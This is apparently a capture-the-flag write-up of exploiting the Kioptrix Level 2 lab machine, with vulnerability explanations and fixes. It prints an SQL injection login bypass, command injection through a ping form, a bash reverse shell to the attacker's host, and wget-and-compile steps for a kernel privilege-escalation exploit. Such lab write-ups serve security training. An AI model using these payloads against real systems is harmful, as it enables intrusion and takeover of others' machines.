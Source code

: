 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Wed May 25 22:52:16 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 192.168.65.134
Nmap scan report for 192.168.65.134
Host is up (0.0021s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            627/udp   status
|_  100024  1            630/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_http-server-header: Apache/2.0.52 (CentOS)
|_ssl-date: 2022-05-25T23:43:02+00:00; -3h09m37s from scanner time.
630/tcp  open  status   1 (RPC #100024)
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:4C:24:00 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -3h09m37s

TRACEROUTE
HOP RTT     ADDRESS
1   2.11 ms 192.168.65.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 25 22:52:49 2022 -- 1 IP address (1 host up) scanned in 33.84 seconds
```
</br>

Port 80, Website Main page: </br>
![main_page](images/kioptrixv2/main_page.png) </br>
This admin panel was vulnerable to SQL Injection, I was able to get inside using this payload: </br>
```' or '1'='1``` </br>

![index_page](images/kioptrixv2/index_page.png) </br>
The web server was asking for an address to ping, and this ping utility script was vulnerable to code injection: </br>
[code_injection](images/kioptrixv2/code_injection.png) </br>
To insert an additional command to the ping utility I did this: ```127.0.0.1 && whoami``` </br>
To gain a reverse shell I did this: </br>
Kali Linux: ```nc -nlvp 1234``` </br>
Web Server: ```127.0.0.1 && bash -i >& /dev/tcp/192.168.65.128/1234 0>&1``` </br>
**Vulnerability Explanation:** </br>
```OS Command Injection:``` </br>
OS Command Injection (also known as shell injection) is a web security vulnerability that allows an
attacker to execute an arbitrary operating system (OS) commands on the server that is running an
application, and typically fully compromise the application and all its data. </br>
```SQL Injection:``` </br>
SQL injection occurs when specially crafted user input is processed by the receiving program in a way
that allows the input to exit a data context and enter a command context. A successful SQL injection
exploit can read sensitive data from the database,modify database data,execute administration operations
on the database,recover the content of a given file present on the DBMS file system and in some cases
issue commands to the operating system. </br>
**Vulnerability Fix:** </br>
```OS Command Injection:``` </br>
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS
commands from application-layer code. In virtually every case, alternate ways of implementing the
required functionality are using safer platform APIs.
If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input
validation must be performed. </br>
```SQL Injection:``` </br>
Most instances of SQL injection can be prevented by using parameterized queries (also known as
prepared statements) instead of string concatenation within the query. </br> </br>
**Initial Shell Screenshot:** </br>
![shell_poc](images/kioptrixv2/shell_poc.png) </br>
# Privilege Escalation:
I checked the kernel version of the machine with the command: ```uname -a``` </br>
![uname_cmd](images/kioptrixv2/images_cmd.png) </br>
I found an exploit in [Exploit-DB](https://www.exploit-db.com/exploits/9542) </br>
**File Transferring:** </br>
I opened an HTTP server on my Kali machine with this command:
```python -m http.server 80``` </br>
Since wget command was installed on the machine, I downloaded the exploit to the /tmp folder: </br>
```wget 192.168.65.128/kernel.c``` </br>
Compiled it: </br>
```gcc kernel.c -o kernel``` </br>
Gave it Execution Permissions: </br>
```Chmod +x kernel``` </br>
**Vulnerability Exploited:** CentOs Kernel 2.6 Exploit. </br>
**Vulnerability Explanation:** The udp_sendmsg function in the UDP implementation in (1) net/ipv4/udp.c
and (2) net/ipv6/udp.c in the Linux kernel before 2.6.19 allows local users to gain privileges or cause a
denial of service (NULL pointer dereference and system crash) via vectors involving the MSG_MORE
flag and a UDP socket. </br> </br>
**Proof Of Screenshot:** </br>
![pe_poc](images/kioptrixv2/pe_poc.png)

